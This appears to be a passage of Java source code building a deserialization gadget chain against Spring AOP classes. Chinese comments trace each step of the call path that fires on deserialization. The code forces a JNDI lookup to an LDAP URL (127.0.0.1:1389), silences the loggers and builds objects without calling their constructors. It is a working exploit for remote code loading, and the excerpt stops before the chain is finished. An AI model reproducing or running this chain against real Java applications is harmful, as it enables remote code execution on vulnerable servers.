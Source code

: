 ```java
            if ( !clazz.getSuperclass().equals(Object.class) ) {
                return getField(clazz.getSuperclass(), fieldName);
            }
            throw e;
        }
    }

    public static void setFieldValue ( final Object obj, final String fieldName, final Object value ) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static <T> T createWithoutConstructor ( Class<T> classToInstantiate )
            throws NoSuchMethodException, InstantiationException, IllegalAccessException, InvocationTargetException {
        return createWithConstructor(classToInstantiate, Object.class, new Class[0], new Object[0]);
    }

    @SuppressWarnings ( {
            "unchecked"
    } )
    public static <T> T createWithConstructor ( Class<T> classToInstantiate, Class<? super T> constructorClass, Class<?>[] consArgTypes,
                                                Object[] consArgs ) throws NoSuchMethodException, InstantiationException, IllegalAccessException, InvocationTargetException {
        Constructor<? super T> objCons = constructorClass.getDeclaredConstructor(consArgTypes);
        objCons.setAccessible(true);
        Constructor<?> sc = ReflectionFactory.getReflectionFactory().newConstructorForSerialization(classToInstantiate, objCons);
        sc.setAccessible(true);
        return (T) sc.newInstance(consArgs);
    }

    public static void main(String[] args) throws Exception {

        String jndiUrl = "ldap://127.0.0.1:1389/fjkrsc";
        SimpleJndiBeanFactory beanFactory = new SimpleJndiBeanFactory();
        beanFactory.addShareableResource(jndiUrl);

        // 反序列化时 BeanFactoryAspectInstanceFactory.getOrder 会被调用, 会触发调用 SimpleJndiBeanFactory.getType -> SimpleJndiBeanFactory.doGetType -> SimpleJndiBeanFactory.doGetSingleton -> SimpleJndiBeanFactory.lookup -> JndiTemplate.lookup.
        setFieldValue(beanFactory, "logger", new NoOpLog());
        setFieldValue(beanFactory.getJndiTemplate(), "logger", new NoOpLog());

        // 反序列化时 AspectJAroundAdvice.getOrder 会被调用, 会触发 BeanFactoryAspectInstanceFactory.getOrder.
        AspectInstanceFactory aspectInstanceFactory = createWithoutConstructor(BeanFactoryAspectInstanceFactory.class);
        setFieldValue(aspectInstanceFactory, "beanFactory", beanFactory);
        setFieldValue(aspectInstanceFactory, "name", jndiUrl);

        // 反序列化时 AspectJPointcutAdvisor.getOrder 会被调用, 会触发 AspectJAroundAdvice.getOrder.
        AbstractAspectJAdvice advice = createWithoutConstructor(AspectJAroundAdvice.class);
        setFieldValue(advice, "aspectInstanceFactory", aspectInstanceFactory);

        // 反序列化时 PartiallyComparableAdvisorHolder.toString 会被调用, 会触发 AspectJPointcutAdvisor.getOrder.
        AspectJPointcutAdvisor advisor = createWithoutConstructor(AspectJPointcutAdvisor.class);
        setFieldValue(advisor, "advice", advice);

        // 反序列化时 Xstring.equals 会被调用, 会触发 PartiallyComparableAdvisorHolder.toString.
```